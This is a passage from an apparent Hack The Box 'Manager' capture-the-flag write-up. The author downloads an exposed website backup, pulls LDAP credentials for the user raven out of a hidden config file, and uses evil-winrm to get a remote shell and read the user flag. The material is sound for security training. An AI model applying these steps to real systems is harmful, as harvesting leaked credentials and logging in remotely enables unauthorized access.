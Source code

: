 
Turns out there is a backup of the website accessible to download.

```sh
┌──(kali㉿kali)-[~/htb/manager]
└─$ curl http://10.10.11.236/website-backup-27-07-23.old.zip -o test.zip

┌──(kali㉿kali)-[~/htb/manager]
└─$ ls -la                                                              
total 1092
drwxr-xr-x 5 kali kali    4096 Oct 24 15:57 .
drwxr-xr-x 7 kali kali    4096 Oct 24 14:23 ..
-rw-r--r-- 1 kali kali     698 Jul 27 05:35 .old-conf.xml
-rw-r--r-- 1 kali kali    5386 Jul 27 05:32 about.html
-rw-r--r-- 1 kali kali    5317 Jul 27 05:32 contact.html
drwxr-xr-x 2 kali kali    4096 Oct 24 15:57 css
drwxr-xr-x 2 kali kali    4096 Oct 24 15:57 images
-rw-r--r-- 1 kali kali   18203 Jul 27 05:32 index.html
drwxr-xr-x 2 kali kali    4096 Oct 24 15:57 js
-rw-r--r-- 1 kali kali    7900 Jul 27 05:32 service.html
-rw-r--r-- 1 kali kali 1045328 Oct 24 15:57 test.zip
                                                                                                                           
┌──(kali㉿kali)-[~/htb/manager]
└─$ cat .old-conf.xml                                                   
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
				 <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>
```

We find the password for the username raven: `R4v3nBe5tD3veloP3r!123`.

Now we can try to connect with this password to WinRM.

```sh
┌──(kali㉿kali)-[~/htb/manager]
└─$ evil-winrm -u raven -p 'R4v3nBe5tD3veloP3r!123' -i dc01.manager.htb

*Evil-WinRM* PS C:\Users\Raven\Documents> cat ../Desktop/user.txt
e49ce14<...>716d1d3
```
